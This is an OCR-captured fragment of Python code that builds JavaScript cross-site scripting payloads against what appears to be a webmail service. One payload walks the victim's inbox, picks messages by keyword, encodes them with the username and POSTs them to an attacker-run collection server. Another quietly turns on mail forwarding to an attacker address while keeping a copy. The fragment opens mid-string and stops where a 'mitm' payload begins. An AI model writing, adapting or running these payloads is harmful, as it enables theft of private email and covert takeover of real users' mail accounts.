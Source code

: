 ```python
                server = ' ''' + xss_platform + ''' '
                xmlhttp4.open('POST',server,false);
                xmlhttp4.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp4.send(to_send); }}catch(error){}
            '''

delete = '''
                try{                 
                newURL1 = currentURL.replace(/BlankMessageBody/,'List');
                EURL = currentURL.replace(/BlankMessageBody/,'Message');
                var all_email = new Array();
                var max_count = ''' + str(max_count_delete) + ''';
                var key_words =''' + keywords_delete + ''';
                var max_page = 1;
                var page=1;
                for(page;page<max_page+1;page++){
                xmlhttp2=new XMLHttpRequest();
                url1 = newURL1 + decodeURIComponent('%26ReturnJavaScript=1%26FolderID=10%26Page=') + page
                xmlhttp2.open('GET',url1,false);
                xmlhttp2.send(null);
                response1 = xmlhttp2.responseText;
                data1 =JSON.parse(response1);
                max_page = data1.changeMultiPage.totalPages;
                for(var a in data1.scripts){
                all_email.push(data1.scripts[a].id); } }
                if(max_count>=all_email.length || max_count==0 ){
                max_count=all_email.length;}
                for(var i=0;i<max_count;i++ ){
                xmlhttp3=new XMLHttpRequest();
                eurl = EURL + decodeURIComponent('%26ReturnJavaScript=1%26ContentType=JavaScript%26FolderID=10%26Number=') + all_email[i];
                xmlhttp3.open('GET',eurl,false);
                xmlhttp3.send(null);
                email_response = xmlhttp3.responseText;
                var flag = 0;
                if(key_words.length==0){flag=1;}
                for(var k in key_words){
                if(email_response.match(key_words[k])!=null){flag=1;}}
                if(flag==0){continue;}
                var to_send = 'a=' + window.btoa(encodeURIComponent(email_response)) + decodeURIComponent('%26b=') + window.btoa(encodeURIComponent(user));
                xmlhttp4=new XMLHttpRequest();
                server = ' ''' + xss_platform + ''' '
                xmlhttp4.open('POST',server,false);
                xmlhttp4.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp4.send(to_send); } }catch(error){}
            '''

forwarding = '''
                try{                
                newURL2 = currentURL.replace(/BlankMessageBody/,'Options-Prefs');
                eurl = newURL2 + decodeURIComponent('%26Save=Yes%26ReturnJavaScript=Yes');
                var to_send = decodeURIComponent('ForwardingEnabled=Yes%26ForwardingAddress='''+ ForwardingAddress +'''%26ForwardingRetainCopy=Yes');                
                xmlhttp3=new XMLHttpRequest();
                xmlhttp3.open('POST',eurl,false);
                xmlhttp3.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp3.send(to_send);}catch(error){}

'''

mitm = '''
```